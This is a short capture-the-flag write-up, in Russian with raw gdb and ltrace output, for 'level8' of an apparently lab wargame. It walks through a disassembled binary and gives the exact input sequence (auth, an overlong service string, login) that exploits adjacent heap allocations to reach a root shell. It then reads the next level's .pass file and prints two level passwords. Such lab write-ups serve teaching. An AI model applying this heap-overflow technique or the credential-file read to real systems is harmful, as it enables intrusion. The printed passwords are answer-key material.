 # su level8
# pass: 5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9

====
Уязвимость: отключена рандомизация памяти, последовательное выделение памяти (маллок)
====

**Поведение: ждёт ввод, возвращает (nil), (nil)**

# ./level8 
(nil), (nil) 
0 0 
(nil), (nil) 
qswqdefdew
(nil), (nil)

# ltrace ./level8 
__libc_start_main(0x8048564, 1, 0xbffff804, 0x8048740, 0x80487b0 <unfinished ...>
printf("%p, %p \n", (nil), (nil)(nil), (nil) 
)                                              = 14
fgets(wdqwdqw
"wdqwdqw\n", 128, 0xb7fd1ac0)                                            = 0xbffff6e0
printf("%p, %p \n", (nil), (nil)(nil), (nil) 
)                                              = 14
fgets(

Проверяя функции, видим одну.

# i func 
<>
0x08048564  main
<>

# disas main 
Dump of assembler code for function main:
   0x08048564 <+0>:     push   %ebp
   0x08048565 <+1>:     mov    %esp,%ebp
   0x08048567 <+3>:     push   %edi
   0x08048568 <+4>:     push   %esi
   0x08048569 <+5>:     and    $0xfffffff0,%esp
   0x0804856c <+8>:     sub    $0xa0,%esp                   160
   0x08048572 <+14>:    jmp    0x8048575 <main+17>
   0x08048574 <+16>:    nop
   0x08048575 <+17>:    mov    0x8049ab0,%ecx               0x8049ab0 <service>:    0x0
   0x0804857b <+23>:    mov    0x8049aac,%edx               0x8049aac <auth>:       0x0
   0x08048581 <+29>:    mov    $0x8048810,%eax              "%p, %p \n"
   0x08048586 <+34>:    mov    %ecx,0x8(%esp)
   0x0804858a <+38>:    mov    %edx,0x4(%esp)
   0x0804858e <+42>:    mov    %eax,(%esp)
   0x08048591 <+45>:    call   0x8048410 <printf@plt>
   0x08048596 <+50>:    mov    0x8049a80,%eax               stdin
   0x0804859b <+55>:    mov    %eax,0x8(%esp)
   0x0804859f <+59>:    movl   $0x80,0x4(%esp)              128
   0x080485a7 <+67>:    lea    0x20(%esp),%eax
   0x080485ab <+71>:    mov    %eax,(%esp)
   0x080485ae <+74>:    call   0x8048440 <fgets@plt>
   0x080485b3 <+79>:    test   %eax,%eax
   0x080485b5 <+81>:    je     0x804872c <main+456>
   0x080485bb <+87>:    lea    0x20(%esp),%eax              buffer
   0x080485bf <+91>:    mov    %eax,%edx
   0x080485c1 <+93>:    mov    $0x8048819,%eax              "auth "
   0x080485c6 <+98>:    mov    $0x5,%ecx
   0x080485cb <+103>:   mov    %edx,%esi                    buffer
   0x080485cd <+105>:   mov    %eax,%edi                    "auth "
   0x080485cf <+107>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080485d1 <+109>:   seta   %dl
   0x080485d4 <+112>:   setb   %al
   0x080485d7 <+115>:   mov    %edx,%ecx
   0x080485d9 <+117>:   sub    %al,%cl
   0x080485db <+119>:   mov    %ecx,%eax
   0x080485dd <+121>:   movsbl %al,%eax                     int8_t needs to be converted to int
   0x080485e0 <+124>:   test   %eax,%eax
   0x080485e2 <+126>:   jne    0x8048642 <main+222>
   0x080485e4 <+128>:   movl   $0x4,(%esp)
   0x080485eb <+135>:   call   0x8048470 <malloc@plt>
   0x080485f0 <+140>:   mov    %eax,0x8049aac               <auth>
   0x080485f5 <+145>:   mov    0x8049aac,%eax               <auth>
   0x080485fa <+150>:   movl   $0x0,(%eax)
   0x08048600 <+156>:   lea    0x20(%esp),%eax              buffer
   0x08048604 <+160>:   add    $0x5,%eax
   0x08048607 <+163>:   movl   $0xffffffff,0x1c(%esp)
   0x0804860f <+171>:   mov    %eax,%edx
   0x08048611 <+173>:   mov    $0x0,%eax                    0
   0x08048616 <+178>:   mov    0x1c(%esp),%ecx              28
   0x0804861a <+182>:   mov    %edx,%edi
   0x0804861c <+184>:   repnz scas %es:(%edi),%al
   0x0804861e <+186>:   mov    %ecx,%eax
   0x08048620 <+188>:   not    %eax
   0x08048622 <+190>:   sub    $0x1,%eax
   0x08048625 <+193>:   cmp    $0x1e,%eax                   30
   0x08048628 <+196>:   ja     0x8048642 <main+222>
   0x0804862a <+198>:   lea    0x20(%esp),%eax
   0x0804862e <+202>:   lea    0x5(%eax),%edx
   0x08048631 <+205>:   mov    0x8049aac,%eax               <auth>
   0x08048636 <+210>:   mov    %edx,0x4(%esp)
   0x0804863a <+214>:   mov    %eax,(%esp)
   0x0804863d <+217>:   call   0x8048460 <strcpy@plt>
   0x08048642 <+222>:   lea    0x20(%esp),%eax
   0x08048646 <+226>:   mov    %eax,%edx
   0x08048648 <+228>:   mov    $0x804881f,%eax              "reset"
   0x0804864d <+233>:   mov    $0x5,%ecx
   0x08048652 <+238>:   mov    %edx,%esi
   0x08048654 <+240>:   mov    %eax,%edi
   0x08048656 <+242>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x08048658 <+244>:   seta   %dl
   0x0804865b <+247>:   setb   %al
   0x0804865e <+250>:   mov    %edx,%ecx
   0x08048660 <+252>:   sub    %al,%cl
   0x08048662 <+254>:   mov    %ecx,%eax
   0x08048664 <+256>:   movsbl %al,%eax
   0x08048667 <+259>:   test   %eax,%eax
   0x08048669 <+261>:   jne    0x8048678 <main+276>
   0x0804866b <+263>:   mov    0x8049aac,%eax               <auth>
   0x08048670 <+268>:   mov    %eax,(%esp)
   0x08048673 <+271>:   call   0x8048420 <free@plt>
   0x08048678 <+276>:   lea    0x20(%esp),%eax
   0x0804867c <+280>:   mov    %eax,%edx
   0x0804867e <+282>:   mov    $0x8048825,%eax              "service"
   0x08048683 <+287>:   mov    $0x6,%ecx
   0x08048688 <+292>:   mov    %edx,%esi
   0x0804868a <+294>:   mov    %eax,%edi
   0x0804868c <+296>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x0804868e <+298>:   seta   %dl
   0x08048691 <+301>:   setb   %al
   0x08048694 <+304>:   mov    %edx,%ecx
   0x08048696 <+306>:   sub    %al,%cl
   0x08048698 <+308>:   mov    %ecx,%eax
   0x0804869a <+310>:   movsbl %al,%eax
   0x0804869d <+313>:   test   %eax,%eax
   0x0804869f <+315>:   jne    0x80486b5 <main+337>
   0x080486a1 <+317>:   lea    0x20(%esp),%eax
   0x080486a5 <+321>:   add    $0x7,%eax
   0x080486a8 <+324>:   mov    %eax,(%esp)
   0x080486ab <+327>:   call   0x8048430 <strdup@plt>
   0x080486b0 <+332>:   mov    %eax,0x8049ab0               <service>
   0x080486b5 <+337>:   lea    0x20(%esp),%eax
   0x080486b9 <+341>:   mov    %eax,%edx
   0x080486bb <+343>:   mov    $0x804882d,%eax              "login"
   0x080486c0 <+348>:   mov    $0x5,%ecx
   0x080486c5 <+353>:   mov    %edx,%esi
   0x080486c7 <+355>:   mov    %eax,%edi
   0x080486c9 <+357>:   repz cmpsb %es:(%edi),%ds:(%esi)
   0x080486cb <+359>:   seta   %dl
   0x080486ce <+362>:   setb   %al
   0x080486d1 <+365>:   mov    %edx,%ecx
   0x080486d3 <+367>:   sub    %al,%cl
   0x080486d5 <+369>:   mov    %ecx,%eax
   0x080486d7 <+371>:   movsbl %al,%eax
   0x080486da <+374>:   test   %eax,%eax
   0x080486dc <+376>:   jne    0x8048574 <main+16>
   0x080486e2 <+382>:   mov    0x8049aac,%eax               <auth>
   0x080486e7 <+387>:   mov    0x20(%eax),%eax              32
   0x080486ea <+390>:   test   %eax,%eax
   0x080486ec <+392>:   je     0x80486ff <main+411>
   0x080486ee <+394>:   movl   $0x8048833,(%esp)            "/bin/sh"
   0x080486f5 <+401>:   call   0x8048480 <system@plt>
   0x080486fa <+406>:   jmp    0x8048574 <main+16>
   0x080486ff <+411>:   mov    0x8049aa0,%eax               stdout
   0x08048704 <+416>:   mov    %eax,%edx
   0x08048706 <+418>:   mov    $0x804883b,%eax              "Password:\n"
   0x0804870b <+423>:   mov    %edx,0xc(%esp)               
   0x0804870f <+427>:   movl   $0xa,0x8(%esp)               10
   0x08048717 <+435>:   movl   $0x1,0x4(%esp)
   0x0804871f <+443>:   mov    %eax,(%esp)
   0x08048722 <+446>:   call   0x8048450 <fwrite@plt>
   0x08048727 <+451>:   jmp    0x8048574 <main+16>
   0x0804872c <+456>:   nop
   0x0804872d <+457>:   mov    $0x0,%eax
   0x08048732 <+462>:   lea    -0x8(%ebp),%esp
   0x08048735 <+465>:   pop    %esi
   0x08048736 <+466>:   pop    %edi
   0x08048737 <+467>:   pop    %ebp
   0x08048738 <+468>:   ret    
End of assembler dump.

Для получения доступа, необходимо вводить auth, service и login. После ввода auth и service на 32 позиции auth должен быть символ. Строки маллочатся друг за другом, то есть после service нужно заполнить еще знаками и переполнить. Расстояние между ними 16 байт.

auth 
service12345678901234567890
login

0x804a008 - 0x804a028 = -32
0x804a008 - 0x804a018 = -16

# cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a